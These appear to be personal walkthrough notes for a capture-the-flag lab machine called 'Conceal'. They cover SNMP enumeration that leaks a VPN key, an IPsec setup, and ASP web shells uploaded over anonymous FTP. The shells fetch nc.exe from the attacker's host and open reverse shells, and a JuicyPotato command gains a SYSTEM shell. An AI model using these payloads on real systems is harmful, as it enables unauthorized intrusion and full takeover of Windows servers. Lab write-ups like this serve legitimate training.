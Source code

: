 PORT      STATE         SERVICE      VERSION
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open          snmp         SNMPv1 server (public)
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds 
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
Service Info: Host: Conceal


```
snmpwalk -c public -v1 10.10.10.116
```
Important info
```STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"```

Hash cracked - ```Dudecake1!```


Detected it is ike version 1 coz --ikev2 doesnot work at all. and by default packet is in --ikev1 format

VPN client StrongSwan- ike vpn client

Links for help for config:
```
https://www.howtoforge.com/tutorial/strongswan-based-ipsec-vpn-using-certificates-and-pre-shared-key-on-ubuntu-16-04/ 

https://wiki.strongswan.org/projects/strongswan/wiki/ConnSection

https://blog.ruanbekker.com/blog/2018/02/11/setup-a-site-to-site-ipsec-vpn-with-strongswan-and-preshared-key-authentication/
```
Final working config files

/etc/ipsec.conf
```
config setup
        charondebug="all"
        uniqueids=yes
        strictcrlpolicy=no
 
# connection to amsterdam datacenter
conn conceal
  authby=secret
  auto=start
  keyexchange=ikev1
  ike=3des-sha1-modp1024!
  esp=3des-sha1!
  left=10.10.14.21
  right=10.10.10.116
  rightsubnet=10.10.10.116[tcp]
  type=transport

```
/etc/ipsec.secret
```
10.14.21 10.10.10.116 : PSK "Dudecake1!"
```
**Type=Transport is working, also need rightsubnet and with the protocol mentioned else it doesnot work**
**decrease mtu size to 1100 to avoid packet loss coz of dual VPNs**

NMAP -sT will work nothing else

anonymous login at ftp.
/upload/ directory found
put the si.asp via ftp anon login and go to /upload/ to execute file

.asp, .aspx not getting to work, use simple asp scripts to work

1.
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>

2.
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c certutil -urlcache -split -f http://10.10.14.21/nc.exe C:\\windows\temp\\nc.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>

3.
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c C:\\windows\temp\\nc.exe -e cmd.exe 10.10.14.21 443")
o = cmd.StdOut.Readall()
Response.write(o)
%>

Juicy Potato- Privesc
error 10038 if wrong clsid. 

https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise

Pick from the ones NT Authority/System ones

```cmd
jp.exe -l 1337 -p C:\Windows\system32\cmd.exe -a "/c %TEMP%\nc1.exe -e cmd.exe 10.10.14.21 444" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```